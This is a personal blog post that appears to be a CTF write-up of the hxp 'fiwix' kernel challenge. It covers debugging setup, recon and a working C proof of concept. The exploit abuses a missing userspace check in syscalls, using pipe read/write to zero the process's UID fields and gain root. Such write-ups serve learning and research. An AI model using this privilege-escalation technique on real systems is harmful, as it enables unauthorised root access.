---
layout: post
title: "Welcome to My Blog"
date: 2026-01-05 10:30:00 +0700
categories: writeup
---

# My First CTF Writeup
Last week I played hxp CTF, and saw this kernel challenge.


<!-- add table of contents -->
<!-- Intro >
<!-- Setup -->
<!-- Exploitation -->
<!-- Final Code -->

## Intro

<!-- add challenge description image -->



We are given a tar.xz file. 
<!-- add unpacked contents image -->


After unpacking the contents, we can see

1. fiwix -> 32-bit ELF kernel binary named fiwix
2. FiwixOS-3.5-i386.raw -> raw disk image for fiwix OS. In short, it contains the filesystem
3. System.map -> symbol table for the fiwix kernel i.e. addresses of functions, variables of the kernel binary running on their server
4. ynetd -> service binary that enforces proof-of-work(PoW) to stop spamming and spawns `$ run.sh` on connect
5. run.sh -> launches QEMU with the fiwix kernel and provided disk image
6. pow-solver.cpp -> script to solve proof-of-work (PoW)
7. build-challenge.sh -> original image-prep script ( not run by Dockerfile)
8. Dockerfile -> builds the challenge container, embeds disk image and kernel, patches the dummy flag with real flag and at the end runs ynetd to expose the service
9. compose.yml -> exposes port 1024 inside the container to host port 13370, adds SYS_ADMIN, and maps `/dev/kvm` so QEMU can use KVM acceleration


After a little searching, we found its an educational made kernel (fiwix kernel 1.7.0) for people to learn and play around. So we will have a lot of bugs to play around.


## Setup
Let's launch it locally to start working on exploit.

First let's remove PoW so we can start the container without having to give proof each time. Modify the Dockerfile and remove `-pow 30` flag from the *ynetd* command.

I was having some issue with KVM acceleration so I removed `-enable-kvm` flag altogether from `$ run.sh`. Now I can easily login with `hxp/hxp` credentials given in `$ build-challenge.sh`.


**GDB** is the **ultimate** truth (Famous words of the OG Rob from pwn.college).

<!-- ADD GDB GIF -->


So let's also enable gdb debugging of fiwix kernel. Since we want to debug `fiwix` kernel and not some userspace binary, we have to attach it at QEMU level.

While running `qemu-system-i386` you can add this as a flag argument to attach `-gdb tcp::1234` to attach on port 1234. You can also just use `-s` which is shorthand for `-gdb tcp::1234`. You can also use `-S` flag to pause the VM at startup until GDB continues.


Don't forget to expose port 1234 outside container so as to debug QEMU from outside. So add `- 1234:1234` under ports in `$ compose.yml`.

Now start the container again, after login connect with gdb via `gdb -ex "target remote localhost:1234" -ex "symbol-file ./fiwix"`. GDB works now but this fiwix kernel doesn't have *debug_info*. 

<!-- Add &current image without debug_info -->


So I compiled this same fiwix kernel binary (fiwix kernel 1.7.0) from their github repo and modified `$ Makefile` to include debug symbols by inserting `-g` into **CFLAGS**.

Now running gdb with added symbol file via `gdb -ex "target remote localhost:1234" -ex "symbol-file /home/mritunjya/ctf/2025/hxp/fiwix_kernel/Fiwix/fiwix"` and printed out `p &current`.

<!-- ADD &current image with debug_info -->


As you can see now, it's with *debug_info* and you can also see current is a pointer to proc struct and to verify if it's loaded at correct address, we can verify the address from `$ System.map` given to us. Address where current is located in both cases point to `0xc0142cf8`. In case it's loaded at wrong address, you can also load fiwix symbol file with a base address like this `add-symbol-file /home/mritunjya/ctf/2025/hxp/h_wix_p/fiwix 0xC0100000` where base address is present in `Makefile` under `TEXTADDR`.

We can also inspect proc struct with offsets, let's use **GDB** `ptype /ox &current`.

<!-- Add ptype current struct structure with offsets -->


Now we can see entire current struct with GDB. Now our setup is almost complete but we are still missing a `root` user. For debugging, nothing beats **ROOT**. So I wrote a patch script tweaked from `$ build-challenge.sh` to add a **ROOT** user with creds **ROOT**.

```sh
#!/bin/bash
set -euo pipefail

if [[ $EUID -ne 0 ]]; then
  echo "This script must be run as root"
  exit 1
fi

dir="$(pwd)"
image="${1:-FiwixOS-3.5-i386.raw}"

if [[ ! -f "$image" ]]; then
  echo "Image not found: $image"
  exit 1
fi

tempdir="$(mktemp -d -t hxp-fiwix-patch.XXXXXXXXXX)"
cd "$tempdir"

loop="$(losetup --show -Pf "$dir/$image")"
echo "loop: $loop"

mkdir mnt
mount "$loop"p2 mnt
cd mnt

# Set root password to "root" i.e. root:root and ensuring hxp:hxp user exists
hash=$(echo "root" | openssl passwd -stdin -1 -salt '')
sed -i "s@^root:[^:]*:@root:$hash:@" etc/passwd

hash=$(echo "hxp" | openssl passwd -stdin -1 -salt '')
if ! grep -q '^hxp:' etc/passwd; then
  echo "hxp:$hash:1337:1337:hxp:/:/bin/bash" >> etc/passwd
fi

cd ..
sync
umount mnt
losetup -d "$loop"

cd "$dir"
rm -rf "$tempdir"
echo "Patched $image"
```


<!-- ADD image Patched Fiwix Filesystem -->

Perfect!!! Now we are ready with the setup.

<!-- Full Setup -->



## Recon
So zooming out a little bit, we have a normal shell, we want to become to root and get `flag.txt`.
Target: Local Privilege Escalation (LPE)


We try to gather as much info as possible 
1. In `$ build-challenge.sh`
    ```sh
    find . -perm /6000 -type f -delete
    find etc/rc.d -name '*atd*' -delete
    find etc/rc.d -name '*crond*' -delete
    ```
    - find files with SUID or SGID bit and deletes them
        - SUID (4000) and SGID (2000) SET BITS
    - delete init/startup scripts for `atd` (job scheduler) and `crond` (cron daemon)

    - NO SUID binaries for privilege escalation

2. try to find as much as info as possible like system info, filesystem perms, any weak sysctl etc

3. check `proc` directory for kernel related stuff

4. We have **fiwix** and `$ System.map`, try to look for any interesting symbols like `init_cred`, `current`, `ioctl`, `syscall_table` etc
    - thinking from a reverse perspective
        - we need privilege escalation so for that
            - either we can overwrite the `current` process credentials via some way like we do in modern systems via `commit_creds(prepare_kernel_cred(NULL))`
            
            - or via overwriting `syscall_table` which is mitigated in modern systems but since it's 32 bit educational hobby OS, we can try checking these techniques
                - overwriting entries in `syscall_table` might let us redirect any syscall to a custom function which can call something like `setuid(0)` or so

        - but for overwriting these stuff, we need to have some vulnerability
            - on modern systems, Kernel has mitigations enabled like SMEP ( supervisor mode execution prevention), SMAP ( supervisor mode access prevention ) to prevent kernel from executing/accessing userspace memory from kernel land
                - we can try checking this if we can access userspace from kernel land or not

            - check reverse also
                - if physical/kernel memory is exposed directly to userland
                    - in short, if we can access kernel memory directly from userland or not
            
            - KPTI mitigation is for hardware attacks which is very unlikely here

5. our `current` is a `proc struct` located inside `Fiwix/include/fiwix/process.h`


## Exploit

Now testing out previous listed vulnerabilities.
Let's get started with very basic one, just wrote a simple script to check if we can access kernel address from userland

```c
// &current = 0xc0144bf8
void main()
{
    int *current = 0xc0144bf8;
    printf("%d", *current);
    getchar(); // to keep the current process alive
}
```

We get `Segmentation Fault` which means we can't access the Kernel address directly.


<!-- ADD SEGMENTATION FAULT image -->

Let's try reading directly via some syscall which in turn will be reading from kernel

```c
// &current = 0xc0144bf8
void main()
{
    int *current = 0xc0144bf8;
    write(1, current, 4);
    getchar(); // to keep the current process alive
}
```


<!-- ADD exploit_test.png -->

We got some address back `0xc01b1290` which looks like a kernel address. So we are able to read kernel addresses from userland via *write* syscall. So it seems like internally when *write* syscall happens, there are no checks to verify.

After a little bit of digging around, found out this function `check_user_area` in `Fiwix/kernel/syscalls.c` which then calls `verify_address` and there are no check if user pointer we have given actually lies in userspace or not.

So technically at this point, we can use any syscall to do kernel operations with kernel addresses.
> In short, we have **arbitary read/write** in fiwix kernel if we have correct kernel addresses.

Our target is privilege escalation, and as mentioned in [Recon](#recon), we can try overwriting credentials of current process struct i.e. overwriting uid, gid etc to make current process root.

Q. How many bytes to overwrite ?
A. We can overwrite 12 bytes effectively replacing all IDs of current process.

```c
struct proc {
    ...
    ...
	unsigned short int uid;		/* real user ID */
	unsigned short int gid;		/* real group ID */
	unsigned short int euid;	/* effective user ID */
	unsigned short int egid;	/* effective group ID */
	unsigned short int suid;	/* saved user ID */
	unsigned short int sgid;	/* saved group ID */
    ...
    ...
    };

extern struct proc *current;
```

Q. At what offset do we write ?
A. Let's find out in **GDB**


<!-- ADD image gdb_offsets.png -->

So we write 12 NULL bytes at offset 0x2120 to get us root.

But since we can only use syscalls under the hood for kernel addresses, we can use pipes as file descriptor.

For getting value of current pointer, we read 4 bytes from one end of pipe and write it to the other end.
```c
    int pipefd[2];
    int value = 0;
    pipe(pipefd);
    write(pipefd[1], 0xc0144bf8, 4);
    read(pipefd[0], &value, 4);
```

Same for writing 12 NULL bytes at offset 0x2120
```c
    char zeros[12];
    memset(zeros, 0x00, sizeof(zeros));
    write(pipefd[1], zeros, 12);
    read(pipefd[0], (value + 0x2120), 12);
```

Here is our final PoC looks like
```c
#include <unistd.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <fcntl.h>
void main()
{
    int pipefd[2];
    int value = 0;
    char zeros[12];
    int i;
    memset(zeros, 0x00, sizeof(zeros));
    pipe(pipefd);
    write(pipefd[1], 0xc0144bf8, 4);
    read(pipefd[0], &value, 4);
    printf("[+] Current pointer = 0x%x\n", value);
    write(pipefd[1], zeros, 12);
    read(pipefd[0], (value + 0x2120), 12);
    printf("[+] Wrote 12 zero bytes\n");
    printf("[+] Current UID: %d\n", getuid());
    int fd;
    char flag[256];
    fd = open("/flag.txt", 0);
    read (fd, flag, sizeof(flag));
    printf("[+] Flag contents: %s\n", flag);
}
```


<!-- ADD Image Final PoC -->

**BOOM**. We got the flag. 


<!-- Add >


Ctrl + C -> MEME


## Greetz
Kudos to HXP CTF Team for 

After CTF, came across this writeup where he exploited via `syscall_table` is 
    - to hxp CTF team for this challenge


